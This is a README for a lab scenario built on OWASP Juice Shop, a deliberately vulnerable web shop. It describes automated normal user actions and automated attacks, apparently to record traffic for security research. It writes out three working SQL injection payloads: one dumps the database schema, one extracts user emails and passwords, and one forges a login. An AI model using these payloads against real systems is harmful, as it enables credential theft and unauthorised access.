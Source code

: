 # Juice shop 

## Overview:
[OWASP Web shop application](https://owasp.org/www-project-juice-shop/) with multiple vulnerabilities.

## Victim:
Modern web application with multiple vulnerabilities. Runs at port 3000, using provided docker for deployment.

## Normal:
User actions include:
        register -> new account for user
        login    -> login user
        shopping -> put random item in basket
                 -> leave feedback to product
        complain -> upload complaint file
        checkout -> set address, delivery method and payment details
User first registers, then logs in and chooses random between shopping, complaining and completing the checkout.

## Exploit:
Running debian10 with selenium user.
Multiple attacks possible (use as 4th parameter following name):
* SQLInjectionSchema
* SQLInjectionCred
* SQLInjectionUser

### SQL-Injection - SQL Schema
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--

### SQL-Injection - Credentials
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--

### SQL-Injection - Non Existing User Login
Run malicious query as email while login:

        ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--

## cli:

    sudo python3.7 main.py a b c d
    
    a: boolean (0/1) run automated normal behavior
    b: integer recording time
       1-n: recording time in seconds
        -1: flag to run auto stop of recording after end of exploit
    c: boolean (0/1) run automated exploit
    d: attack type (SQLInjectionSchema, SQLInjectionCred, SQLInjectionUser)